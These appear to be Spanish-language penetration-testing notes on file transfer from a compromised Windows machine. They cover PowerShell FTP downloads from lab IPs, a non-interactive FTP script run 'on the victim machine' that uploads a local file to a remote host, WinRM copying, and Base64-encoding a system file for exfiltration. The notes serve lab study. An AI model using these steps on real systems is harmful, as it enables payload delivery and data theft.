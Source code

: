 #### **FTP** - Descarga de archivo  
##### Con DownloadFile - Sin credenciales
```powershell
(New-Object Net.WebClient).DownloadFile('ftp://192.168.49.128/file.txt', 'C:\Users\Public\ftp-file.txt')
```
##### ##### Con DownloadFile - Con credenciales
```powershell
$ftp = "ftp://192.168.1.10/reporte.txt" 
$dest = "C:\ruta_local\reporte.txt" 
$webclient = New-Object System.Net.WebClient 
$webclient.Credentials = New-Object System.Net.NetworkCredential("anonymous", "anonymous@example.com") 
$webclient.DownloadFile($ftp, $dest)
```
O con un onliner
```powershell
(New-Object System.Net.WebClient).DownloadFile("ftp://192.168.1.10/reporte.txt", "C:\ruta_local\reporte.txt", (New-Object System.Net.NetworkCredential("anonymous", "anonymous@example.com")))

```

##### Sin shell interactiva - Sin intervención del usuario
Un archivo ftpcommand.txt podría tener la siguiente información
```textplain
open 192.168.1.10
USER anonymous
PASS anonymous@example.com
binary
GET archivo_remoto.txt
PUT archivo_local.txt
bye
```
En la máquina víctima
```powershell
ftp -v -n -s:ftpcommand.txt
```
`-v` para verbose, `-n` para auto-login (desactiva inicio de sesión automático) y `-s:archivo` (Script File)   
#### WinRM
```powershell
$Session = New-PSSession -ComputerName DATABASE01
Copy-Item -Path C:\samplefile.txt -ToSession $Session -Destination C:\Users\Administrator\Desktop\
```

### **Subir Archivos**

#### **PowerShell Base64 Encode**
```powershell
[Convert]::ToBase64String((Get-Content -path "C:\Windows\system32\drivers\etc\hosts" -Encoding byte))
```
